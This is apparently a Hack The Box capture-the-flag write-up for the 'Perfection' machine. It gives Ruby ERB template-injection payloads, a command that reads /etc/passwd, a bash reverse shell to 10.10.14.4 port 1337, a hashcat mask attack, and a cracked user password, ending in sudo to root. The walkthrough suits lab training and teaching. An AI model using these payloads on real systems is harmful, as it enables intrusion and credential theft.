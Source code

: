 # [Perfection](https://app.hackthebox.com/machines/perfection)

```bash
nmap -p-  --min-rate 5000 10.10.11.253 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.253 -Pn
```

![alt text](img/image-1.png)


After browsing web application, I can see such web page.

![alt text](img/image-2.png)


Let's enumerate this web application. So that, while we saw HTTP response headers, we can get enumeration about web application.

![alt text](img/image-3.png)

We know that `WEBrick/1.7.0` is used and `Ruby/3.0.2` is programming language.


Let's enumerate calculator via fuzzing values.

![alt text](img/image-4.png)


Let's enter data for `category` fields. So that, I just do `CRLF` injection by adding `%0A` character means `New Line`.

![alt text](img/image-5.png)

As this application is programmed in `Ruby` language, let's test `Ruby` SSTI(Server-Side Template Injection) payloads.

![alt text](img/image-6.png)


**Note:** But we need to enter payload as `URL` encoded.
```bash
<%= 7*7 %>
```

![alt text](img/image-7.png)


As this `SSTI` payload worked, let's try other command execution.
```bash
<%= `cat /etc/passwd` %>
```

![alt text](img/image-8.png)


Now, it's time for reverse shell payload.
```bash
<%= `bash -c 'bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'` %>
```

![alt text](img/image-9.png)


Now, we enter `URL` encoded payload.

![alt text](img/image-10.png)


Hola! I got reverse shell from port `1337`.

![alt text](img/image-11.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-12.png)


user.txt

![alt text](img/image-13.png)


While I run `id` command, I see that `susan` user belongs to `sudo` group but we don't know his password.


After enumeration of machine, I find `pupilpath_credentials.db` file on `Migration` directory. Let's read this via `sqlite3`.

![alt text](img/image-14.png)


Maybe this hash belongs to password of system user `susan`.

Again, I make enumeration and look at `/var/mail/susan` file which contains sensitive information about password cracking via correct algorithm.

![alt text](img/image-15.png)


So, that's why we need to find correct number which located between 1 and 1 million.


We learn hash type via `hash-identifier` tool.

![alt text](img/image-16.png)


Let's take this hash and crack via `hashcat` via below syntax.

```bash
hashcat -m 1400 -a 3 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d
```

![alt text](img/image-17.png)


susan: susan_nasus_413759210


I just run `sudo -l` and see that `(ALL: ALL) ALL`, that's why I just do `sudo -s` and gain root privilege.


root.txt

![alt text](img/image-18.png)